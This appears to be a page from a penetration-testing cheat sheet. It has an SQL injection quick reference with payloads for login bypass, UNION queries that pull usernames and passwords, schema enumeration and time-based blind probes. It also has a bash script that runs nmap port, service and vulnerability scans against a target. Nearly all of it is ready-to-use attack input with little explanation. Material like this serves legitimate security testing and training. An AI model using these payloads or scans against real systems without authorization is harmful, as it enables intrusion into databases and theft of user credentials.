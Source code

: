 ## SQL Injection Quick Reference
```sql
# Authentication Bypass
' OR '1'='1'--
admin'--
' OR 1=1#

# Union Attack
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT username,password FROM users--

# Database Enumeration
' UNION SELECT table_name FROM information_schema.tables--
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--

# Time-Based Blind
' OR SLEEP(5)--
'; WAITFOR DELAY '00:00:05'--
```

---

# Automation Scripts

## Network Scanner Script
```bash
#!/bin/bash
# Quick network scanner

TARGET=$1
PORTS="21,22,23,25,80,443,445,3306,3389,8080"

echo "[*] Scanning $TARGET"

# Quick scan
echo "[*] Running quick port scan..."
nmap -sS -T4 -p $PORTS $TARGET -oN quick_scan.txt

# Service detection
echo "[*] Running service detection..."
nmap -sV -sC -p $PORTS $TARGET -oN service_scan.txt

# Vulnerability scan
echo "[*] Running vulnerability scan..."
nmap --script vuln -p $PORTS $TARGET -oN vuln_scan.txt

echo "[+] Scans complete!"
echo "[+] Results saved to:"
echo "    - quick_scan.txt"
echo "    - service_scan.txt"
echo "    - vuln_scan.txt"
```
